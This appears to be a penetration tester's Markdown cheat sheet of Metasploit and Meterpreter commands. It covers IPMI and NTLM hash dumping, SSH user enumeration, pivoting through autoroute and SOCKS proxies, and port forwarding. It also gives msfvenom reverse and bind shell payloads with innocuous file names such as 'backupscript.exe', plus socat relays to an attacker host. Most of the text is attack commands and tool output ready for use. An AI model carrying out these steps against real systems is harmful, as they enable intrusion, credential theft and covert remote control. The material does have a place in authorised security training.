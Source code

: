 # Modules
## IPMI Hash Dump
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
```shell-session
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
```
## Local Exploit Suggestor
```shell-session
msf> use multi/recon/local_exploit_suggester
```
## SSH
### SSH User Enumeration
```metasploit
msf> use auxiliary/scanner/ssh/ssh_enumusers
```
## #SOCKS Proxy
Use Metasploit's `socks_proxy` to configure a local proxy on our attack host:
```shell-session
msf6 > use auxiliary/server/socks_proxy
```
- Enable SOCKS listener in `/etc/proxychains.conf`:
```TXT
socks4 	127.0.0.1 <PORT>
```
- Configure `socks_proxy` to route all traffic via our Meterpreter session using `post/multi/manage/autoroute`:
```shell-session
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
- It is also possible to add routes with `autoroute`:
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23
```
## Ping Sweep
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=<REMOTER-IP>/23
```
# Meterpreter
## Dump NTLM hashes
```shell-session
meterpreter> load kiwi
meterpreter> lsa_dump_sam
```
## Port Forwarding
We can use any of the below methods to establish local port forwarding
### 1. Using [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/)
1. Create Payload for Ubuntu pivot host
```shell-session
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> -f elf -o backupjob LPORT=8080
```
2. Start a `multi/handler`, also known as a Generic Payload Handler
```shell-session
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```
3. Copy binary to Ubuntu pivot host and execute to gain a Meterpreter session
4. Now we can perform enumeration scans through this pivot host
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### 2. Using [[#SOCKS Proxy]]
If host's firewall blocks ICMP, we can perform TCP scan on remoter `172.16.5.0/23` IP range with Nmap. And instead of using SSH for port forwarding we can:
1. Use Metasploit `socks_proxy` to configure a local proxy on our attack host:
```shell-session
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version <4a/5>
msf6 auxiliary(server/socks_proxy) > run
```
2. Enable SOCKS listener in `/etc/proxychains.conf`:
```TXT
socks4 	127.0.0.1 9050
```
3. Configure `socks_proxy` to route all traffic via our Meterpreter session using `post/multi/manage/autoroute`:
```shell-session
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```
- It is also possible to add routes with `autoroute`:
```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```
- Now we can run any `COMMAND` via proxychains to route it via our Meterpreter session.
```shell-session
$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
>Try using with **sudo** if doesn't relay
### 3. Using `portfwd`
```shell-session
meterpreter > portfwd add -l <PORT> -p 3389 -r 172.16.5.19
[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```
With this we can simply run any command on `<PORT>` to direct it to port 3389 on remote system.
```shell-session
$ xfreerdp /v:localhost:<PORT> /u:victor /p:pass@123
```
## Reverse Port Forwarding
We can listen on any remote port and forward its received data to our local port using the below methods.
### 1. Using `portfwd`
Create a reverse port forwarding from remote pivot
```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L <ATTACKER-IP>
[*] Local TCP relay created: <ATTACKER-IP>:8081 <-> :1234
```
Now to execute commands on remoter Windows system and receive it on our attacking system:
1. Configure & start multi/handler: 
```shell-session
meterpreter > bg
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > run
```
2. Create payload for remoter Windows system to receive a connection back to pivot Ubuntu system:
```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<PIVOT-IP> -f exe -o backupscript.exe LPORT=1234
```
- Executing the payload on remoter Windows system should give us a shell back.
### 2. Using [[Socat]]
#### - Reverse Shell
1. Start a reverse port forwarding from `Ubuntu:8080` to `Kali:80`
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:<ATTACKER-IP>:80
```
2. Create the Windows payload again and [[File Transfer|transfer]] it to Windows system:
```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
3. Configure & start multi/handler: 
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
msf6 exploit(multi/handler) > run
```
- Executing the payload on remoter Windows system should give us a shell back.
#### - Bind Shell
Similar to above:
1. Use [[Socat#Redirecting with a Bind Shell|Socat's - Bind Shell Listener]]:
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:<REMOTER-IP>:8443
```
2. Create respective bind payload:
```shell-session
$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
3. Configure & start multi/handler:
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST <UBUNTU-IP>
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run
```